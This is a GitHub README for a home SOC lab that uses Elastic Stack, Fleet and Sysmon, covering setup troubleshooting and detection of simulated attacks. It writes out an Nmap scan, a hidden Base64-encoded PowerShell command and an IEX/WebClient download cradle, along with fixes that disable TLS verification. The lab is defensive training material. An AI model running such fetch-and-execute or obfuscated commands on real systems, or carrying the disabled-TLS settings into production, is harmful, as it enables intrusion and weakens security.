



# SOC Lab: Elastic Stack + Sysmon Threat Detection Environment

A hands-on Security Operations Center (SOC) lab built entirely on local virtual machines, demonstrating end-to-end log collection, endpoint monitoring, and attack simulation using the Elastic Stack (Elasticsearch, Kibana, Fleet) and Sysmon.


---

## 📋 Table of Contents

- [Overview](#overview)
- [Architecture](#architecture)
- [Lab Environment](#lab-environment)
- [Setup Summary](#setup-summary)
- [Challenges & Troubleshooting](#challenges--troubleshooting)
- [Attack Simulations](#attack-simulations)
- [Detection Queries](#detection-queries)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Key Takeaways](#key-takeaways)
- [Screenshots](#screenshots)
- [Future Work](#future-work)

---

## Overview

This project simulates a small enterprise SOC environment for learning endpoint detection and response (EDR) fundamentals. A Windows 10 endpoint is monitored using **Sysmon** with the community-maintained **SwiftOnSecurity** configuration, and all telemetry is shipped through **Elastic Agent** and **Fleet Server** into **Elasticsearch**, where it can be searched and analyzed in **Kibana**. A Kali Linux machine is used as the attacker workstation to generate realistic activity for detection.

**Goals:**
- Stand up a working Elastic Stack SIEM pipeline from scratch
- Enroll a Windows endpoint with Sysmon telemetry
- Simulate common attacker techniques (e.g., obfuscated PowerShell)
- Search, filter, and interpret the resulting evidence in Kibana
- Document real-world troubleshooting encountered along the way

---

## Architecture

```
┌─────────────────────┐         ┌──────────────────────────┐
│   Kali Linux         │         │   Windows 10 (Victim)     │
│   (Attacker)          │ ─────▶ │   Elastic Agent + Sysmon  │
│   10.0.2.6            │         │   10.0.2.15                │
└─────────────────────┘         └───────────┬──────────────┘
                                              │ Fleet enrollment /
                                              │ encrypted data shipping
                                              ▼
                                 ┌──────────────────────────┐
                                 │  Ubuntu Server            │
                                 │  10.0.2.4                  │
                                 │  ├─ Elasticsearch          │
                                 │  ├─ Kibana                 │
                                 │  └─ Fleet Server           │
                                 └──────────────────────────┘
```

All three machines run as VirtualBox VMs on an isolated internal network.

---

## Lab Environment

| Component | Details |
|---|---|
| Hypervisor | Oracle VirtualBox |
| SIEM Server | Ubuntu Server, Elasticsearch 9.4.4, Kibana 9.4.4 |
| Endpoint | Windows 10 Pro, Elastic Agent 9.4.4, Sysmon (SwiftOnSecurity config) |
| Attacker | Kali Linux 2024.1 |
| Network | VirtualBox NAT Network (shared internal segment, `10.0.2.0/24`) |

---

## Setup Summary

1. Installed and configured **Elasticsearch** and **Kibana** on Ubuntu Server.
2. Deployed **Fleet Server** on the same host and enrolled it into Kibana Fleet.
3. Created a dedicated **Agent Policy** (`windows-victim-policy`) with the **System** and **Windows** integrations.
4. Installed **Elastic Agent** on the Windows 10 victim machine and enrolled it into Fleet.
5. Installed **Sysmon** on Windows using the **SwiftOnSecurity** configuration for high-fidelity endpoint telemetry.
6. Verified that the `windows.sysmon_operational` data stream (built into the Windows integration) was collecting Sysmon events automatically.
7. Simulated attacker behavior from Kali and validated detection via Kibana Discover.

---

## Challenges & Troubleshooting

Real-world lab building rarely goes smoothly — these are the actual issues hit during setup, in the order they occurred, with the exact diagnostic and fix commands used. This section is intentionally detailed because working through infrastructure problems is as valuable a skill as the detection work itself.

### 1. Fleet Server enrollment failing with `401 security_exception`

**Symptom:** Running the Fleet Server install command from Kibana's "Add Fleet Server" page failed repeatedly with:
```
Fleet Server - Error - failed version compatibility check with elasticsearch: elastic fail 401: security_exception: unable to authenticate with provided credentials
```

**Root cause:** The service token used in the enrollment command had expired or was generated incorrectly in an earlier attempt.

**Diagnosis & fix commands:**
```bash
# Generate a brand-new Fleet Server service token
sudo /usr/share/elasticsearch/bin/elasticsearch-service-tokens create elastic/fleet-server fleet-server-token

# Re-run the install with the fresh token
sudo ./elastic-agent install \
  --fleet-server-es=https://localhost:9200 \
  --fleet-server-service-token=<NEW_TOKEN> \
  --fleet-server-policy=fleet-server-policy \
  --fleet-server-es-ca-trusted-fingerprint=<CA_FINGERPRINT> \
  --fleet-server-port=8220 \
  --install-servers
```
Result: `Successfully enrolled the Elastic Agent.`

---

### 2. Elasticsearch failing to start — `AccessDeniedException: /etc/elasticsearch/service_tokens`

**Symptom:** After generating the new service token above, `systemctl status elasticsearch` showed `failed (Result: exit-code)`, and the log revealed:
```
Caused by: java.nio.file.AccessDeniedException: /etc/elasticsearch/service_tokens
```

**Root cause:** Running `elasticsearch-service-tokens create` with `sudo` changed the file's owner to `root:elasticsearch` instead of `elasticsearch:elasticsearch`. The Elasticsearch service (which runs as the `elasticsearch` user) could no longer read its own token file.

**Diagnosis & fix commands:**
```bash
# Confirm ownership
sudo ls -l /etc/elasticsearch/service_tokens
# -rw------- 1 root elasticsearch 308 ... service_tokens   <- wrong owner

# Fix ownership and permissions
sudo chown elasticsearch:elasticsearch /etc/elasticsearch/service_tokens
sudo chmod 660 /etc/elasticsearch/service_tokens

# Restart and verify
sudo systemctl restart elasticsearch.service
sudo systemctl status elasticsearch.service --no-pager
# Active: active (running)
```

---

### 3. Windows Agent enrollment failing — `x509: certificate signed by unknown authority`

**Symptom:** Running the Windows enrollment command generated by Fleet failed with repeated retries and:
```
Error detected: fail to execute request to fleet-server: x509: certificate signed by unknown authority, will retry in a moment.
...
Error: fail to enroll: context deadline exceeded
```

**Root cause:** Elasticsearch/Fleet Server used a self-signed TLS certificate that the Windows Elastic Agent installer didn't trust by default.

**Fix command (lab-appropriate — isolated network, no production data):**
```powershell
.\elastic-agent.exe install `
  --url=https://10.0.2.4:8220 `
  --enrollment-token=<ENROLLMENT_TOKEN> `
  --insecure
```
Result: `Successfully enrolled the Elastic Agent.` (log confirmed `"SSL/TLS verifications disabled."`)

---

### 4. Agent enrolled but stuck "Unhealthy" — `dial tcp 127.0.0.1:9200: connection refused`

**Symptom:** The Windows agent showed up in Fleet but with status **Unhealthy**, CPU/Memory `N/A`. Running a local status check revealed the real problem:
```powershell
& "C:\Program Files\Elastic\Agent\elastic-agent.exe" status
```
```
status: (DEGRADED) Recoverable: Elasticsearch request failed:
dial tcp 127.0.0.1:9200: connectex: No connection could be made because
the target machine actively refused it.
```

**Root cause:** The Fleet **default output** (Fleet → Settings → Outputs → default) was still configured with `https://localhost:9200`. That worked while the agent and Elasticsearch were on the same host (Fleet Server), but broke as soon as a *remote* agent (Windows) inherited the same output config and tried to reach "itself" instead of the real server.

**Fix:** In Kibana → **Fleet → Settings → Outputs → default**, changed:
```
Hosts: https://localhost:9200   →   https://10.0.2.4:9200
```
then clicked **Save and apply settings** to push the change to all enrolled agents.

---

### 5. Still Unhealthy after the output fix — `x509: certificate is valid for ..., not 10.0.2.4`

**Symptom:** Re-running the status check showed a *new*, more specific TLS error:
```
x509: certificate is valid for fe80::a00:27ff:fec8:ecf, 10.0.2.15, ::1,
127.0.0.1, fd00::a00:27ff:fec8:ecf, not 10.0.2.4
```

**Root cause:** The self-signed Elasticsearch certificate's Subject Alternative Names (SANs) didn't include the server's actual LAN IP (`10.0.2.4`), so strict TLS hostname verification rejected the connection even though the CA fingerprint was correct.

**Fix:** Added to the output's **Advanced YAML configuration** in Fleet Settings:
```yaml
ssl.verification_mode: none
```
Then forced a faster reload on each host:
```bash
# Ubuntu (Fleet Server)
sudo systemctl restart elastic-agent
```
```powershell
# Windows
Restart-Service "Elastic Agent"
```
Result: both agents flipped to **Healthy** within ~1 minute.

> ⚠️ `ssl.verification_mode: none` is acceptable here because this is an isolated lab network with no real threat model for TLS interception. A production deployment should instead issue a certificate whose SANs include every hostname/IP agents will use to reach it.

---

### 6. Elasticsearch crashing under load — `oom-kill`

**Symptom:** Kibana became unreachable mid-session; `systemctl status elasticsearch` showed:
```
Active: failed (Result: oom-kill)
elasticsearch.service: The kernel OOM killer killed some process...
```

**Root cause:** The VM's default RAM (5.3 GB total) wasn't enough for Elasticsearch, Kibana, and Fleet Server running concurrently under load; Elasticsearch's JVM heap grew to a peak of 5.4 GB and the Linux kernel killed the process to protect the system.

**Diagnosis & fix commands:**
```bash
# Confirm available memory
free -h

# Explicitly cap the JVM heap instead of letting it auto-size to ~50% of RAM
sudo nano /etc/elasticsearch/jvm.options.d/heap.options
```
```
-Xms1500m
-Xmx1500m
```
```bash
sudo systemctl restart elasticsearch.service
sudo cat /etc/elasticsearch/jvm.options.d/heap.options   # verify it saved correctly
```
Additionally increased the VM's **Base Memory** in VirtualBox (Settings → System → Motherboard) from ~5.3 GB to 7.3 GB for headroom, then confirmed stability with:
```bash
watch -n 5 free -h
```
Result: stable memory usage (~3.7 GB used / 3.6 GB available) with no further crashes.

---

## Attack Simulations

All simulated activity was executed locally in the isolated lab network — no external targets were involved. Attacker box: Kali Linux (`10.0.2.6`). Target: Windows 10 victim (`10.0.2.15`).

### Simulation 1 — Network Port Scan (Nmap)

**Command (from Kali):**
```bash
sudo nmap -sV -T4 10.0.2.15
```

**Result:**
```
PORT     STATE SERVICE VERSION
5357/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows
```


Nmap successfully fingerprinted an open port and the target OS in ~33 seconds.

**Detection finding:** Searching Kibana Discover for `event.code: "3"` (Sysmon Network Connection) filtered to the Windows host returned **no results tied to the scan itself**. This makes sense once you consider *what Sysmon actually watches*: Sysmon logs **outbound** connections initiated by processes **on the monitored host**. An inbound port scan from Kali is traffic arriving at the Windows NIC, not a connection opened by a Windows process — so Sysmon (a host-based tool) has no process to attribute it to. This is an important design lesson: **host-based EDR telemetry does not replace network-layer detection** (e.g., a NIDS like Suricata/Zeek would have caught this scan; Sysmon alone will not).

### Simulation 2 — Obfuscated PowerShell (Encoded Command)

Simulated a classic attacker technique: Base64-encoding a command to evade simple string-based detection.

**Commands (on the Windows victim, in a non-admin PowerShell session):**
```powershell
$cmd = "Write-Host 'Simulated malicious activity'; whoami; Get-Process | Select -First 5; Get-ChildItem C:\Users -Recurse -ErrorAction SilentlyContinue | Select -First 10"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCommand = [Convert]::ToBase64String($bytes)
$encodedCommand

powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand $encodedCommand
```

**Result:** Captured in the `windows.powershell` data stream as Event ID 403 (Engine Lifecycle), with the complete command line preserved:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  -NoProfile -WindowStyle Hidden -EncodedCommand
  VwByAGkAdABlAC0ASABvAHMAdAAgACcAUwBpAG0AdQBsAGEAdABlAGQAIABtAGEAbABpAGMAaQBvAHUAcwAgAGEAYwB0AGkAdgBpAHQAeQAnADsAIAB3AGgAbwBhAG0AaQA7...
```


This is a textbook indicator analysts look for: `-WindowStyle Hidden` combined with `-EncodedCommand` in the same process command line — flagged by nearly every commercial EDR's default detection ruleset.

**Detection query used:**
```
process.command_line: *EncodedCommand* and process.command_line: *Hidden*
```

### Simulation 3 — Download Cradle (`IEX` + `WebClient`)

Simulated a fileless-execution technique commonly used to pull and run remote payloads in memory.

**Command (on the Windows victim):**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.0.2.4:5601/api/status')
```
The command itself failed to *execute* as a script (the target response was JSON, not valid PowerShell), returning a `ParseException`. However, it left **two distinct forensic artifacts**:

**Artifact A — an actual outbound network connection (Sysmon Event ID 3):**
Because `WebClient.DownloadString` makes a real outbound HTTP request, and this time the request *originated from a process on the monitored Windows host* (unlike the inbound Nmap scan), Sysmon captured it cleanly:
```
process.name: powershell.exe
destination.ip: 10.0.2.4
destination.port: 5601
```


This confirms the earlier hypothesis from Simulation 1: Sysmon *does* log Event ID 3 connections — just only for **outbound** connections initiated by a local process, not for inbound scan traffic.

**Artifact B — a script-policy temp file (Sysmon Event ID 11, File Create):**
```
TargetFilename: C:\Users\victim\AppData\Local\Temp\__PSScriptPolicyTest_ladi3zgo.ada.ps1
```
This is a temp file PowerShell automatically creates to validate its execution policy before running any script-like content — including content pulled via `IEX`. It's a well-known *indirect* indicator of script execution attempts, even when the primary command line doesn't show a `.ps1` file being run directly.

**Detection queries used:**
```
# Outbound connection made by PowerShell
event.code: "3" and process.name: "powershell.exe"

# Indirect artifact of script execution / policy validation
file.name: "__PSScriptPolicyTest*"
```

---

## Detection Queries

KQL queries used in Kibana Discover to hunt for the simulated activity:

```
# Obfuscated PowerShell execution
process.command_line: *EncodedCommand* and process.command_line: *Hidden*

# PowerShell script policy artifact (indirect evidence of script execution)
file.name: "__PSScriptPolicyTest*"

# All Sysmon process creation events
event.provider: "Microsoft-Windows-Sysmon" and event.code: "1"

# All PowerShell engine activity
data_stream.dataset: "windows.powershell"
```

---

## MITRE ATT&CK Mapping

| Technique | ID | Simulation |
|---|---|---|
| PowerShell | T1059.001 | Encoded command execution |
| Obfuscated Files or Information | T1027 | Base64-encoded command |
| Ingress Tool Transfer (attempted) | T1105 | `IEX` + `WebClient.DownloadString` |
| Network Service Discovery | T1046 | Nmap port scan |

---

## Key Takeaways

- **Infrastructure work is most of the job.** Getting a SIEM pipeline stable (certificates, memory, permissions, networking) took significantly more troubleshooting than the detection engineering itself — a realistic reflection of actual SOC/IT operations.
- **Host-based telemetry has a directional blind spot.** Sysmon logs connections *initiated by* processes on the monitored host — it saw the outbound connection PowerShell made during the download-cradle attempt, but not the inbound Nmap scan hitting the same machine. Full visibility requires pairing host-based EDR (Sysmon) with network-based detection (NIDS).
- **Failed attacks still leave evidence.** The download cradle command failed to *execute* as a script, but it still produced two independent artifacts: a real network connection (Event ID 3) and a script-policy temp file (Event ID 11) — a valuable lesson in looking beyond "did the command succeed."
- **Indirect artifacts matter.** Not every technique produces an obvious, direct log entry; skilled analysts correlate secondary artifacts (temp files, child processes, network connections) to reconstruct attacker behavior even when the primary payload fails.

---

## Screenshots

Screenshots are stored in `/screenshots`.

| Stage | Screenshot | What it shows |
|---|---|---|
| Nmap scan from Kali | `screenshots/kali-nmap-scan-result.png` | Open port `5357/tcp` discovered on the Windows victim, OS fingerprinted |
| Encoded PowerShell — full command line | `screenshots/kibana-encoded-powershell-fulldetail.png` | Expanded Kibana document showing the complete `-WindowStyle Hidden -EncodedCommand ...` command line captured from the victim |
| Download cradle — outbound connection captured | `screenshots/kibana-download-cradle-network-connection.png` | Sysmon Event ID 3 showing `powershell.exe` connecting to `10.0.2.4:5601`, proving Sysmon *does* capture outbound connections initiated locally |

> Add additional screenshots (Fleet Agents Healthy, Sysmon install success, VirtualBox VM overview) as `screenshots/<name>.png` and extend the table above.

---

## Future Work

- [ ] Add Suricata or Zeek for network-layer detection to cover inbound scans that host-based Sysmon cannot see
- [ ] Build custom Kibana detection rules from the documented KQL queries
- [ ] Add a Kibana dashboard summarizing Sysmon activity by host
- [ ] Simulate additional MITRE ATT&CK techniques (credential access, lateral movement, persistence)
- [ ] Test whether a firewall/IDS on the Windows host surfaces the inbound Nmap scan that Sysmon missed

---

## Disclaimer

This lab was built entirely on isolated, local virtual machines with no internet-facing services and no real targets. All "attacker" activity was simulated against a lab-owned Windows VM for educational purposes only.

---

## Author

Built as a hands-on learning project in SOC fundamentals, log pipeline engineering, and endpoint detection with the Elastic Stack.
